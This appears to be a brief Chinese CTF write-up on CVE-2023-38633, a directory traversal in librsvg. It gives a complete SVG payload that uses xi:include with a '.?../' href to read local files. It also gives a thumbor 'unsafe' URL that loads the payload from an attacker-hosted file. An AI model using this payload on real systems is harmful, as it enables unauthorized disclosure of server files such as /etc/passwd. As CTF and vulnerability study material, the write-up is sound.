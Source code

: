 > librsvg 2.56.3 之前版本中 URL 解码器的目录遍历问题，可以被本地或远程攻击者用来泄露文件（在预期区域之外的本地文件系统上），例如通过在 xi:include 元素中使用 href=“.?../…/…/…/…/…/…/…/…/…/etc/passwd” 来读取结果。
> 原文链接：https://blog.csdn.net/HMX404/article/details/137231580

原理参考文章：

[When URL parsers disagree (CVE-2023-38633) - Canva Engineering Blog](https://www.canva.dev/blog/engineering/when-url-parsers-disagree-cve-2023-38633/)

payload：

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>  
<svg width="3000" height="3000" xmlns:xi="http://www.w3.org/2001/XInclude">  
   <rect width="3000" height="3000" style="fill:rgb(255,255,255);" />  
   <text x="0" y="1500" font-size="100">  
     <xi:include href=".?../../../../../../../../flag" parse="text"   
encoding="UTF-8">  
       <xi:fallback>file not found</xi:fallback>  
     </xi:include>  
   </text>  
</svg>
```

跟上题差不多，在服务器上创建一个txt，将payload写进去，远程加载即可

```
http://localhost:8800/thumbor/unsafe/450x/YOUR_IP/poc.txt
```



